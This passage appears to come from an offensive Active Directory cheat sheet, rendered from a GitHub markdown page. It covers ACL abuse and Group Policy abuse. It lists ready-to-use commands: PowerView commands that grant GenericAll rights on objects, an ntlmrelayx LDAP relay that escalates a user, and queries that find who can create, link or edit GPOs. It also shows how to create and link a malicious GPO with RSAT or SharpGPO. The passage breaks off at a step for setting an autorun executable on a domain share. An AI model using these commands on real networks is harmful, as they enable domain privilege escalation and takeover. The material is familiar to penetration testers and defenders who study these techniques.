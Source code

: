 ````
```
Add-DomainObjectAcl -Credential $creds -TargetIdentity "<OBJECT FQDN OR SID>" -Rights all -PrincipalIdentity <USER WHO GETS GENERIC ALL> -Verbose

Get-DomainObjectAcl -Identity "<OBJECT FQDN OR SID>" -ResolveGUIDs | Where-Object -Property SecurityIdentifier -Match <SID OF USER WHO GETS GENERIC ALL>
```

#### NTLMRelay
- It is possible to abuse ACL with NTLMRelay abuse
```
ntlmrelayx.py -t ldap://<DC IP> --escalate-user <USER>
```

#### Restore ACL's with aclpwn.py
- NTLMRelayx performs acl attacks a restore file is sived that can be used to restore the ACL's
```
python3 aclpwn.py --restore aclpwn.restore
```

### GPO Abuse
- Members of ```Group Policy Creator Owners``` can create new GPO's. But they cant link it to anything or modify existing GPO’s. The creator will have to modify rights over created GPO.

#### Show who can create new GPO's
```
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=<DOMAIN>,DC=<DOMAIN>" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

#### Show who can write to GP-link attribute on OUs
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

#### Show who can edit GPO's with 4 digit RID
- Has WriteProperty, WriteDACL or WriteOwner
```
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "<DOMAIN SID>-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

#### Resolve sid + Object dn
```
ConvertFrom-SID <SID>
Get-DomainGPO -Name "{<OBJECT DN SID>}" -Properties DisplayName
```

#### Create GPO and link to OU
- Uses RSAT tools or https://github.com/Dliv3/SharpGPO
```
New-GPO -Name "SMB security" | New-GPLink -Target "OU=<OU>,DC=<DOMAIN>,DC=<DOMAIN>"

SharpGpo.exe --Action NewGPO --GPOName SMB security
SharpGpo.exe --Action NewGPLink --DN "OU=<OU>,DC=<DOMAIN>,DC=<DOMAIN>" --GPOName SMB security
```

#### Set autorun value
- Uses RSAT tools
- Best is to set the executable on a share in the domain
```
````